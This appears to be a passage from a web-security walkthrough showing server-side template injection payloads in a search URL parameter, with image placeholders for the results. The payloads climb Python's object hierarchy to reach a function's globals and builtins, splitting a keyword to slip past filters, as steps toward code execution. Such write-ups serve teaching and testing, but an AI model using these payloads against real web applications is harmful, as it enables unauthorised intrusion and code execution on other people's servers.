 ```url
?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']}}
```

![init globals result](./img/15-2.png)

```url
?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']}}
```

![init builtins result](./img/15-3.png)
